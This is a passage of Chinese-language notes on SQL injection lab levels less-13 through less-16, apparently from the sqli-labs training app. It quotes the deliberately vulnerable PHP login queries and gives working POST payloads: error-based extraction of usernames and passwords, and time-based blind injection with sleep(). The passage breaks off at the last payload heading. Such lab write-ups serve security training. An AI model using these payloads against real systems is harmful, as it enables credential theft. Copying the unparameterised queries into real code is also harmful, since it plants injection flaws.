 ```
```
![image](https://note.youdao.com/yws/res/11203/54A84126074042628D2AAB3D81E4E751)
##### payload

```
uname=admin')AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT(SELECT CONCAT(CAST(CONCAT(username,password) AS CHAR),0x7e)) FROM users LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) #&passwd=1&submit=Submit
```
### less-14
##### index.php
与less-13一样，只是闭合方式不一样
```
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";
```
![image](https://note.youdao.com/yws/res/11212/4C3850E27F1344E79DC5C797CD14D081)
##### payload

```
uname=admin" AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT(SELECT CONCAT(CAST(CONCAT(username,password) AS CHAR),0x7e)) FROM users LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) #&passwd=1&submit=Submit
```

### less-15
##### index.php
本关没有错误提示，那么我们只能靠猜测进行注入。
```
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
if($row){
  	}else{
	}
```
![image](https://note.youdao.com/yws/res/11220/AACE3831760A450DB908F667594D5541)
##### payload

```
uname=admin'and If(ascii(substr(database(),1,1))=115,sleep(2),1)#&passwd=admin&submit=Submit
```
### less-16
##### index.php
和 Less-15 注入类型一致，更换对应的闭合方式即可

```
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
if($row){
  	}else{
	}
```
##### payload
